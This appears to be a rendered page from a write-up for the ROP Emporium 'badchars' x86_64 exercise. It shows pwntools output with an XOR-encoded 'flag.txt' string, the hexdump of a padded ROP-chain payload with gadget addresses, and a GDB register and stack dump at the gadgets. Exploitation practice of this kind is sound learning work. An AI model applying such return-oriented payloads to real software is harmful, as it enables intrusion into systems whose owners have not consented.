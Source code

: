 ```
[*] Encoded target: b'fl\xf1\xf7\xbet\xe8t'
[DEBUG] Received 0x44 bytes:
    b'badchars by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b"badchars are: 'x', 'g', 'a', '.'\n"
    b'> '
[DEBUG] Sent 0x59 bytes:
    00000000  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    *
    00000020  90 90 90 90  90 90 90 90  9c 06 40 00  00 00 00 00  │····│····│··@·│····│
    00000030  66 6c f1 f7  be 74 e8 74  29 10 60 00  00 00 00 00  │fl··│·t·t│)·`·│····│
    00000040  ef be ad de  ef be ad de  ef be ad de  ef be ad de  │····│····│····│····│
    00000050  34 06 40 00  00 00 00 00  0a                        │4·@·│····│·│
    00000059
[*] Switching to interactive mode
[DEBUG] Received 0xb bytes:
    b'Thank you!\n'
Thank you!
```

In GDB:

```
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xb               
$rbx   : 0x0               
$rcx   : 0x00007effcc073ff3  →  0x5577fffff0003d48 ("H="?)
$rdx   : 0x0               
$rsp   : 0x00007ffe69b2e9b8  →  0x00007effcbfab70a  →  <init_cacheinfo+90> jl 0x7effcbfab725 <init_cacheinfo+117>
$rbp   : 0x9090909090909090
$rsi   : 0x00007effcc144723  →  0x146670000000000a
$rdi   : 0x00007effcc146670  →  0x0000000000000000
$rip   : 0x0000000000400638  →  <usefulGadgets+16> ret 
$r8    : 0xb               
$r9    : 0x2               
$r10   : 0xfffffffffffff55b
$r11   : 0x246             
$r12   : 0x74e874bef7f16c66
$r13   : 0x0000000000601029  →  0x74e874bef7f16c66
$r14   : 0xdeadbeefdeadbeef
$r15   : 0xdeadbeefdeadbeef
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffe69b2e9b8│+0x0000: 0x00007effcbfab70a  →  <init_cacheinfo+90> jl 0x7effcbfab725 <init_cacheinfo+117>    ← $rsp
0x00007ffe69b2e9c0│+0x0008: 0x0000000000000000
0x00007ffe69b2e9c8│+0x0010: 0x51342fdcbd6cf710
0x00007ffe69b2e9d0│+0x0018: 0x0000000000400520  →  <_start+0> xor ebp, ebp
0x00007ffe69b2e9d8│+0x0020: 0x0000000000000000
0x00007ffe69b2e9e0│+0x0028: 0x0000000000000000
0x00007ffe69b2e9e8│+0x0030: 0x0000000000000000
0x00007ffe69b2e9f0│+0x0038: 0xaec8fc3962acf710
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400630 <usefulGadgets+8> sub    BYTE PTR [r15], r14b
     0x400633 <usefulGadgets+11> ret    
     0x400634 <usefulGadgets+12> mov    QWORD PTR [r13+0x0], r12
```